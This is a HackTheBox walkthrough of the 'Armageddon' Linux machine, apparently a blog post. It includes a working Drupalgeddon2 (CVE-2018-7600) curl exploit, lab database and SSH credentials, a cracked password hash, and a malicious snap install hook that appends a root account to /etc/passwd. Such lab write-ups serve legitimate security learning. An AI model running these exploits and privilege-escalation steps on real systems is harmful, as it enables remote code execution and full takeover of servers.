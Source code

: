 ```yaml
---
title: Hackthebox - Armageddon
date: 2021-05-22 00:00:00 +0530
categories: [hackthebox, linux]
tags: [drupal, cve-2018-7600, drupalgeddon 2, sudo snap install]     # TAG names should always be lowercase
image: /assets/img/posts/armageddon/armageddon_banner.png
---
```



![](/assets/img/posts/armageddon/armageddon_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.233 armageddon.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon
```

* nmap found robots.txt file on the server.

## Identify CMS

* wappalyzer identify cms is drupal 7

![](/assets/img/posts/armageddon/wappalyzer-scan.png)

* Running [droopescan](https://github.com/droope/droopescan) found the drupal version

![](/assets/img/posts/armageddon/droopescan-scan.png)

* searching for exploit in searchsploit found RCE

![](/assets/img/posts/armageddon/searchsploit-scan.png)

# Foothold

## Drupal property injection: Drupalgeddon 2

* [CVE-2018-7600/SA-CORE-2018-002](https://www.drupal.org/sa-core-2018-002)
  * A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.
* [gotmilk gist of diffrent drupal drupalgeddon2 PoCs](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708)

```bash
id=$(curl -k -s 'http://armageddon.htb/?q=user/password&name\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]=id' \
    --data "form_id=user_pass&_triggering_element_name=name" | grep form_build_id | cut -d'"' -f6) && echo $id

curl -s "http://armageddon.htb/?q=file/ajax/name/%23value/$id" \
    --data "form_build_id=$id" | head -n -1
```

![](/assets/img/posts/armageddon/drupal-exploit.png)

**Exploit Script**

* Drupalgeddon2 Exploit script from [dreadlocked@github](https://github.com/dreadlocked/Drupalgeddon2)

![](/assets/img/posts/armageddon/web-shell.png)

Got a restricted shell on the box.

### Execute mysql in non interactive shell

shell is almost completely disconnected and restricted from file system. nothing to do here.

back to web server, found a file `/update.php` that tells access dinied and refer to `settings.php`
* Drupal cms sites all config settings available in the `../sites/<site-name>/settings.php`

![](/assets/img/posts/armageddon/find-settings.png)

Found mysql database password in `settings.php` file

![](/assets/img/posts/armageddon/db-creds.png)

creds are working but don't have interactive shell

![](/assets/img/posts/armageddon/mysql-login.png)

Using mysql commandline flags to execute database command
```bash
-e, --execute=name  Execute command and quit.
-D, --database=name Database to use.
```

and found admin password hash who is also the user in the box
```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'SELECT * FROM users;'
```

![](/assets/img/posts/armageddon/pwd-hash.png)

admin user hash cracked with john 
```bash
brucetherealadmin:$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```
![](/assets/img/posts/armageddon/hash-cracked.png)

successfully login to ssh with admin creds

![](/assets/img/posts/armageddon/ssh-login.png)

# Privesc

## `snap install` with sudo
<!--brucetherealadmin:booboo-->

in the box user "brucetherealadmin" have sudo right to run `/usr/bin/snap` as root with NOPASSWD.
```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

Found Exploit on [gtfobins](https://gtfobins.github.io/gtfobins/snap/)

**Create snap package**
* Generate password hash with command `openssl passwd "Password"`
```bash
COMMAND='echo "toor:VmIEBMKbM9avc:0:0:root/root:/bin/bash" >> /etc/passwd'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

If `fpm` is not install
```bash
sudo gem install --no-document fpm
sudo apt-get install squashfs-tools
```

upload package with scp
```bash
sshpass -p 'booboo' scp ./xxxx_1.0_all.snap brucetherealadmin@armageddon.htb:/home/brucetherealadmin/snap
```

And finally run
```bash
sudo -u root /usr/bin/snap install * --dangerous --devmode
```

![](/assets/img/posts/armageddon/armageddon-rooted.png)

